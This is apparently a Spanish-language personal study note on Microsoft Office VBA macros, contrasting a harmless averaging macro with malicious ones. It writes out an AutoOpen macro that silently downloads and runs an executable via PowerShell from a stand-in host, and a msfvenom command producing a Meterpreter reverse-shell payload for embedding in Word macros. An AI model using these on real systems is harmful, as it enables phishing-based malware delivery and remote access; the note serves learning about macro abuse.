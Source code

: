 ```yaml
---
Extra: 📄 Macros de Office
fecha: 2024-11-07
tags:
  - extra
  - ofuscacion
  - exploit
---
```


## Macros de Office

### Descripción

Las **Macros de Office** son secuencias de comandos creadas con **VBA (Visual Basic for Applications)**, utilizadas comúnmente para automatizar tareas en documentos de Microsoft Office como Word, Excel y PowerPoint. Sin embargo, también son conocidas por su uso malicioso en ataques cibernéticos, como la entrega de malware o la escalación de privilegios.

### Características clave

- **Automatización**: Permiten realizar tareas repetitivas y complejas con un solo clic.
- **Compatibilidad**: Funciona en varios programas de Office.
- **Potencial de abuso**: Utilizadas en ataques como phishing para ejecutar código malicioso.
- **Facilidad de uso**: Simple de crear, editar e incrustar en documentos.

### Ejemplo de uso benigno

Automatizar el cálculo de datos en un archivo Excel:

- Ejemplo sin daño:
```vba
Sub CalcularPromedio()
    Dim Rango As Range
    Set Rango = Selection
    MsgBox "El promedio es: " & Application.WorksheetFunction.Average(Rango)
End Sub
```

- Ejemplo con daño:
```vba
Sub AutoOpen()
    Dim Str As String
    Str = "powershell -Command ""Invoke-WebRequest -Uri 'http://example.com/payload.exe' -OutFile 'C:\payload.exe'; Start-Process 'C:\payload.exe'"""
    Shell Str, vbHide
End Sub
```

Ejemplo en word ->

![[Pasted image 20241210195150.png]]

## Ejemplo con msfvenom

```bash
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.2.134 LPORT=4444 -f vba-exe
```

Te da un output gigante que se ha de pegar en las macros de Office (el macro code es la subrutina) el payload hay que pegarlo en el documento de word y el código de macro en las macros del word (improtante fijarse si está hecho para word o excel).
